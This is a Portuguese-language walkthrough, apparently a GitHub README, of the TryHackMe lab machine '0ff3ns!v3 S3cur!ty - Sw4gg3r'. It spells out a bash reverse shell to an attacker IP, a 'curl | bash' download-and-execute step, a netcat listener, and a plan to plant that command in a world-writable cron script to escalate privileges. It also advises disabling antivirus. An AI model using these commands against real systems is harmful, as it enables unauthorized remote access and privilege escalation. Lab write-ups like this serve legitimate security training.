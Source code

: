 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## ⚠️ Obs: Desligar o antivírus

### 💡 A máquina parece ter o `curl`. Dá pra subir um arquivo shell usando um servidor Python, baixar com `curl`, executar e escutar a resposta do outro lado.

![image](https://github.com/user-attachments/assets/9de29dba-6b94-4492-9d84-54b28b5408e3)

### 📄 Conteúdo do arquivo `shell_2.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.100.168/4444 0>&1
```

### 🚀 Dentro dessa pasta, vamos subir o servidor Python para baixar com o curl:

![image](https://github.com/user-attachments/assets/ce117679-c08a-4e7b-90c8-79057e4d97db)

---

### 🌐 No site, usamos o comando `curl` para baixar o arquivo e em seguida já executá-lo:

```bash
curl http://[IP]:[PORTA]/shell_2.sh | bash
```

![image](https://github.com/user-attachments/assets/c0bba9e9-88df-4021-b2c9-9c3276935111)

### Confirmação : ::ffff:192.168.100.207 - - [21/May/2025 02:49:03] "GET /shell_2.sh HTTP/1.1" 200

### 📡 Em outro terminal, deixamos o listener pronto com:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/c3e6ad67-6e91-4442-a4e9-6196b32a58e2)

---

### ✅ Shell recebido! Agora é hora de fazer pós-exploração e escalar privilégios.

#### Acesso à máquina com usuário `www-data`:

---

### 🗂️ Aqui estão todos os arquivos encontrados com fuzzing. Agora vamos explorá-los em busca de algo útil.
![image](https://github.com/user-attachments/assets/a200a374-0976-4250-b338-69ea9889edbb)
### Dentro da pasta `/opt`, encontramos um script `.sh` que é executado via cron a cada minuto:

![image](https://github.com/user-attachments/assets/854a11c4-a51e-4e55-85b3-e3faf37ec0c1)

### 🔍 Entendendo o que ocorre dentro do script:

![image](https://github.com/user-attachments/assets/a5f88153-c1f1-40fa-88f6-4e6f5c855d4d)

---

## Oque é preciso entender para escalar o previlegio:
```txt
  ### -rwxrwxrwx  1 user-swagger user-swagger  184 Jun  1  2023 script.sh
  
  Fazendo a analine desse arquivo podemos ver que ele deu um chmod 777 
  ,que dizer que todos como root , todos os grupos e convidados tem acesso 
  a escrita execução e leitura do arquivo .sh que é um indicio que é por 
  aqui o caminho , ainda por cima o dono do arquivo é o swagger
      
  Mas tem o problema de estarmos com o usuario wwwdata que é limitado para escalar  
  previlegio de root precisamos do arquivo que tem previlegios do usuario swagger
  que é literalmente este arquivo

  Para Conseguir entrar no user dele podemos usar o script que ele criou contra ele mesmo
  e colocar um shell reverse para entrar da nossa maquina no perfil de usuario dele


  Conclusão: se para conseguir acesso precisamos de uma interação com o swagger e ocorre no arquivo
  a cada um minuto como a analise do chat gpt disse.
  então mudamos o conteudo o arquivo colocamos outro shel reverse de usuario agora
  
  1. colocar o comando do shell reverse já usado (exito) , dentro do script.sh
  comando ( curl http://192.168.100.168:8000/shell_2.sh | bash )
  2. executar enquanto o outro terminal escuta a shell
  
  
```

![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
### por exemplo aqui se colocar-mos um bash dentro desse script.sh como nos colocamos com o usuario wwwdata , quando eu exe no arquivo vai me retornar como se fosse um shell reversa do propio usuario como na imagem acima , nao tem como eu elevar o nivel de usuario sendo que foi o propio usuario que adicionou o bash entao na teoria devemos colocar o bash dentro do script do swagger para conseguir o acesso dele

---
